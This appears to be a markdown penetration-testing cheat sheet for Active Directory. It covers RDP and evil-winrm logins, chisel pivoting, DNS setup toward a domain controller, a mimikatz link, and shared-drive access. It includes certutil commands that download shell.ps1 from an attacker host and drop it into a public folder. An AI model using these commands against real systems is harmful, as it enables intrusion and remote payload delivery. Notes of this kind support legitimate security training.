 # Active Directory


RDP to connect to jumphost: `xfreerdp /u:${DOMAIN}\\${user} /p:${password} /cert:ignore /v:$RHOST /smart-sizing`
In order to add a shared drive with `xfreedrp`, use `/drive:tmp,/tmp`.
Note that the shared drive can now be accessed programmatically by using the path `\\tsclient\tmp` on the Windows host.

When pivoting with eg. chisel, it can be used with socks proxy by adding `/proxy:"socks5://127.0.0.1:1080"`.


## evil-winrm

Connect to windows host via WinRM with (from kali)
```
evil-winrm -i ${RHOST} -u ${USER} -p ${PW}
```
special characters might need to be escaped from the password.

## Enumeration

### Initial setup

Set network connection credentials to given user on Windows with:
```
runas.exe /netonly /user:<domain>\<username> cmd.exe
```
Commands used for configuring DNS to the domain controller manually in PS:
```
$dnsip = "${DC_IP}"
$index = Get-NetAdapter -Name '${Network_Interface}' | Select-Object -ExpandProperty 'ifIndex'
Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip
```
`${Network_Interface}` is interface of the network


verify by using nslookup afterwards.


## Post Exploit

[mimikatz cheatsheet](https://kashz.gitbook.io/kashz-jewels/cheatsheet/mimikatz)


## CMD commands to remember

CMD equivalent of wget
```
certutil.exe -urlcache -split -f http://{ATTACKER_IP}:{ATTACKER_PORT}/shell.ps1
```
and choose location by setting the name afterwards:

```
certutil.exe -urlcache -split -f http://{ATTACKER_IP}:{ATTACKER_PORT}/shell.ps1 C:\\Users\\Public\\shell.ps1
```


grep equivalent for cmd: `findstr`

remove a file with force: `del /f`



## Access shared drives

Assuming there is a shared drive on `${COMPUTER_NAME}\shared`, and we have a powershell prompt with access to this shared drive,
we can just do eg `ls ${COMPUTER_NAME}\shared` and other cli commands.

This also works if we have loaded a TGS that grants the access.
